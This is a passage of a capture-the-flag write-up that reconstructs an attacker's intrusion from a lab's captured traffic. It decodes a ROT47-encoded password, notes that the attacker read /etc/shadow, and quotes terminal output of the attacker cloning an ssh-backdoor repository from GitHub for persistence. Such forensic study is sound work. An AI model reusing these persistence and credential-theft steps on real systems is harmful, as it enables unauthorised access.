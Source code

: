 Before he uses the password, he prints out the Overpass-Database. Probably he found the password in there. From the previous room ([Overpass](./Overpass/Overpass.md)), we know that the algorithm is ROT47. So throwing `,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.` into CyberChef, gives us `[{"name":"System","pass":"whenevernoteartinstant"}]`.

### How did the attacker establish persistence?
After the attacker were able to escalate his privileges, he took a look at the _/etc/shadow_. So we have also the hashed user password.

In the next step he downloaded a ssh-backdoor from GitHub and installs a ssh-key:
```
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        
remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
```